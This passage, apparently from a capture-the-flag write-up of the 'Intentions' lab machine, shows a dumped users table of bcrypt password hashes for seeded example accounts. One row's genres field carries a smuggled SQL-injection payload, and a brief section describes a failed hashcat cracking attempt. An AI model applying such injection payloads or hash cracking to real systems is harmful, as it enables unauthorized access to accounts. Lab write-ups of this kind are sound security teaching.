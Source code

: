     | 7  | mwisoky@example.org           | Monique D'Amore          | food,travel,nature             | 0       | $2y$10$pAMvp3xPODhnm38lnbwPYuZN0B/0nnHyTSMf1pbEoz6Ghjq.ecA7. | 2023-02-02 18:02:37 | 2023-02-02 18:02:37 |
    | 8  | lura.zieme@example.org        | Desmond Greenfelder      | food,travel,nature             | 0       | $2y$10$.VfxnlYhad5YPvanmSt3L.5tGaTa4/dXv1jnfBVCpaR2h.SDDioy2 | 2023-02-02 18:02:37 | 2023-02-02 18:02:37 |
    | 9  | pouros.marcus@example.net     | Mrs. Roxanne Raynor      | food,travel,nature             | 0       | $2y$10$UD1HYmPNuqsWXwhyXSW2d.CawOv1C8QZknUBRgg3/Kx82hjqbJFMO | 2023-02-02 18:02:37 | 2023-02-02 18:02:37 |
    | 10 | mellie.okon@example.com       | Rose Rutherford          | food,travel,nature             | 0       | $2y$10$4nxh9pJV0HmqEdq9sKRjKuHshmloVH1eH0mSBMzfzx/kpO/XcKw1m | 2023-02-02 18:02:37 | 2023-02-02 18:02:37 |
    | 11 | trace94@example.net           | Dr. Chelsie Greenholt I  | food,travel,nature             | 0       | $2y$10$by.sn.tdh2V1swiDijAZpe1bUpfQr6ZjNUIkug8LSdR2ZVdS9bR7W | 2023-02-02 18:02:37 | 2023-02-02 18:02:37 |
    | 12 | kayleigh18@example.com        | Prof. Johanna Ullrich MD | food,travel,nature             | 0       | $2y$10$9Yf1zb0jwxqeSnzS9CymsevVGLWIDYI4fQRF5704bMN8Vd4vkvvHi | 2023-02-02 18:02:37 | 2023-02-02 18:02:37 |
    | 13 | tdach@example.com             | Prof. Gina Brekke        | food,travel,nature             | 0       | $2y$10$UnvH8xiHiZa.wryeO1O5IuARzkwbFogWqE7x74O1we9HYspsv9b2. | 2023-02-02 18:02:37 | 2023-02-02 18:02:37 |
    | 14 | lindsey.muller@example.org    | Jarrett Bayer            | food,travel,nature             | 0       | $2y$10$yUpaabSbUpbfNIDzvXUrn.1O8I6LbxuK63GqzrWOyEt8DRd0ljyKS | 2023-02-02 18:02:37 | 2023-02-02 18:02:37 |
    | 15 | tschmidt@example.org          | Macy Walter              | food,travel,nature             | 0       | $2y$10$01SOJhuW9WzULsWQHspsde3vVKt6VwNADSWY45Ji33lKn7sSvIxIm | 2023-02-02 18:02:37 | 2023-02-02 18:02:37 |
    | 16 | murray.marilie@example.com    | Prof. Devan Ortiz DDS    | food,travel,nature             | 0       | $2y$10$I7I4W5pfcLwu3O/wJwAeJ.xqukO924Tx6WHz1am.PtEXFiFhZUd9S | 2023-02-02 18:02:37 | 2023-02-02 18:02:37 |
    | 17 | barbara.goodwin@example.com   | Eula Shields             | food,travel,nature             | 0       | $2y$10$0fkHzVJ7paAx0rYErFAtA.2MpKY/ny1.kp/qFzU22t0aBNJHEMkg2 | 2023-02-02 18:02:37 | 2023-02-02 18:02:37 |
    | 18 | maggio.lonny@example.org      | Mariano Corwin           | food,travel,nature             | 0       | $2y$10$p.QL52DVRRHvSM121QCIFOJnAHuVPG5gJDB/N2/lf76YTn1FQGiya | 2023-02-02 18:02:37 | 2023-02-02 18:02:37 |
    | 19 | chackett@example.org          | Madisyn Reinger DDS      | food,travel,nature             | 0       | $2y$10$GDyg.hs4VqBhGlCBFb5dDO6Y0bwb87CPmgFLubYEdHLDXZVyn3lUW | 2023-02-02 18:02:37 | 2023-02-02 18:02:37 |
    | 20 | layla.swift@example.net       | Jayson Strosin           | food,travel,nature             | 0       | $2y$10$Gy9v3MDkk5cWO40.H6sJ5uwYJCAlzxf/OhpXbkklsHoLdA8aVt3Ei | 2023-02-02 18:02:37 | 2023-02-02 18:02:37 |
    | 21 | rshanahan@example.net         | Zelda Jenkins            | food,travel,nature             | 0       | $2y$10$/2wLaoWygrWELes242Cq6Ol3UUx5MmZ31Eqq91Kgm2O8S.39cv9L2 | 2023-02-02 18:02:37 | 2023-02-02 18:02:37 |
    | 22 | shyatt@example.com            | Eugene Okuneva I         | food,travel,nature             | 0       | $2y$10$k/yUU3iPYEvQRBetaF6GpuxAwapReAPUU8Kd1C0Iygu.JQ/Cllvgy | 2023-02-02 18:02:37 | 2023-02-02 18:02:37 |
    | 23 | sierra.russel@example.com     | Mrs. Rhianna Hahn DDS    | food,travel,nature             | 0       | $2y$10$0aYgz4DMuXe1gm5/aT.gTe0kgiEKO1xf/7ank4EW1s6ISt1Khs8Ma | 2023-02-02 18:02:37 | 2023-02-02 18:02:37 |
    | 24 | ferry.erling@example.com      | Viola Vandervort DVM     | food,travel,nature             | 0       | $2y$10$iGDL/XqpsqG.uu875Sp2XOaczC6A3GfO5eOz1kL1k5GMVZMipZPpa | 2023-02-02 18:02:37 | 2023-02-02 18:02:37 |
    | 25 | beryl68@example.org           | Prof. Margret Von Jr.    | food,travel,nature             | 0       | $2y$10$stXFuM4ct/eKhUfu09JCVOXCTOQLhDQ4CFjlIstypyRUGazqmNpCa | 2023-02-02 18:02:37 | 2023-02-02 18:02:37 |
    | 26 | ellie.moore@example.net       | Florence Crona           | food,travel,nature             | 0       | $2y$10$NDW.r.M5zfl8yDT6rJTcjemJb0YzrJ6gl6tN.iohUugld3EZQZkQy | 2023-02-02 18:02:37 | 2023-02-02 18:02:37 |
    | 27 | littel.blair@example.org      | Tod Casper               | food,travel,nature             | 0       | $2y$10$S5pjACbhVo9SGO4Be8hQY.Rn87sg10BTQErH3tChanxipQOe9l7Ou | 2023-02-02 18:02:37 | 2023-02-02 18:02:37 |
    | 28 | 0xdf@intentions.htb           | 0xdf                     | food')/**/__REFLECTED_VALUE__# | 0       | $2y$10$YUmJGH/nZwMGYmrz.TqDHOtpq1VK4xrw87YtsEJhaobmQ23pY7AbW | 2023-09-14 18:14:31 | 2023-09-14 20:45:38 |
    +----+-------------------------------+--------------------------+--------------------------------+---------+--------------------------------------------------------------+---------------------+---------------------+
    ...[snip]...


### Admin Access

#### Crack Failures

I'll fire up `hashcat` on my system with these hashes, but after five
minutes, none have cracked, and progress is moving very slowly as these
are Bcrypt hashes. This doesn't seem the be the way.

#### Enumerate v2 Login
